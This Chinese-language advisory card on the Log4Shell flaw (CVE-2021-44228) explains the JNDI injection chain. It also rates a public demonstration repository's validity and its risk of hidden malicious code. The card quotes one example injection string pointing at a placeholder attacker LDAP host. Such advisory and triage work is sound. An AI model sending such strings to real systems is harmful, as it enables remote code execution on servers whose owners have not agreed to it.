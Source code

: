 ## CVE-2021-44228 - Apache Log4j2 JNDI 远程代码执行漏洞

**漏洞编号:** CVE-2021-44228

**漏洞类型:** 远程代码执行 (RCE)

**影响应用:** Apache Log4j2

**危害等级:** 高危，允许攻击者执行任意代码

**影响版本:** 2.0-beta9 到 2.15.0 (不包括安全版本 2.12.2, 2.12.3, 和 2.3.1)

**利用条件:** 目标系统使用了受影响版本的 Log4j2，并且启用了 message lookup substitution。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2021-44228 (Log4Shell) 是 Apache Log4j2 中的一个严重漏洞，它允许攻击者通过 JNDI 注入执行任意代码。漏洞利用方式如下：

1.  **攻击者发送恶意请求：** 攻击者向目标系统发送一个包含特定格式的字符串（例如 `${jndi:ldap://attacker.com/exploit}`）的请求，这个字符串会被 Log4j2 记录。
2.  **Log4j2 解析恶意字符串：** 当 Log4j2 尝试记录包含`${jndi:...}`的字符串时，它会触发 JNDI lookup。
3.  **JNDI 发起 LDAP 查询：** JNDI 会根据 URL (例如 `ldap://attacker.com/exploit`) 发起 LDAP 查询请求攻击者控制的 LDAP 服务器。
4.  **LDAP 服务器返回恶意引用：** 攻击者的 LDAP 服务器返回一个包含恶意 Java 类的引用。
5.  **Log4j2 加载并执行恶意代码：** Log4j2 尝试从指定的 URL 加载并实例化这个 Java 类，从而执行攻击者提供的任意代码。

**有效性：**

根据提供的漏洞信息和搜索结果，该漏洞是真实存在的，并且存在公开可用的 PoC。提供的漏洞利用代码库是一个用于演示 Log4Shell 漏洞的教育项目，因此其有效性是为了演示漏洞而设计的。

**投毒风险：**

评估此代码库的投毒风险较低，约为 10%。

*   代码库的 `README.md` 文件明确声明其目的是为了教育和演示 Log4Shell 漏洞，并警告用户不要在生产环境中使用。
*   代码库结构清晰，主要包含一个易受攻击的 Spring Boot 应用程序 (`vulnerable-app`)，一个模拟恶意 LDAP 服务器的 `marshalsec` fork，和一个提供恶意 Java 类的 HTTP 服务器 (`payload-server`)。
*   虽然存在通过修改 `Exploit.class` 文件来植入恶意代码的可能性，但这种投毒行为相对容易被发现，因为其主要目的是演示漏洞，所以更可能是测试后门连接，并非投毒代码。
*   代码贡献者 Fabio Eletto 已经明确声明了代码的用途，降低了恶意使用的可能性。

但是，用户仍然需要谨慎使用此代码库，务必在隔离的环境中进行测试，并仔细审查代码以确保安全。

**项目地址:** [fabioeletto/hka-seminar-log4shell](https://github.com/fabioeletto/hka-seminar-log4shell)

**漏洞详情:** [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)